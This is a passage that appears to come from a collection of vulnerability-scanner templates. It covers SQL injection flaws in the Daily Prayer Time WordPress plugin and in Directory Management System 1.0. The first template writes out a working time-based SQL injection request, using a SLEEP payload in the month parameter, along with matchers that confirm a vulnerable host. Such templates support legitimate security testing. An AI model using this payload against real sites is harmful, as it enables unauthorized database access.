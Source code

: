 - status
  1. 200

---

# Daily Prayer Time \< 2022.03.01 - Unauthenticated SQLi

## Description

- The Daily Prayer Time WordPress plugin before 2022.03.01 does not sanitise and escape the month parameter before using it in a SQL statement via the get_monthly_timetable AJAX action (available to unauthenticated users), leading to an unauthenticated SQL injection.

- severity - critical
- tags - sqli,wordpress,wp-plugin,unauth,daily-prayer-time-for-mosques,wpscan,cve,cve2022,wp

## Requests

### Step - 1

```
@timeout: 10s
GET /wp-admin/admin-ajax.php?action=get_monthly_timetable&month=1+AND+(SELECT+6881+FROM+(SELECT(SLEEP(6)))iEAn) HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. duration>=6
  2. status_code == 200
  3. contains(content_type, "text/html")
  4. contains(body, "dptTimetable customStyles dptUserStyles")
- condition - and

---

# Directory Management System 1.0 - SQL Injection

## Description

- Directory Management System 1.0 contains multiple SQL injection vulnerabilities via the username and password parameters in the Admin panel. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
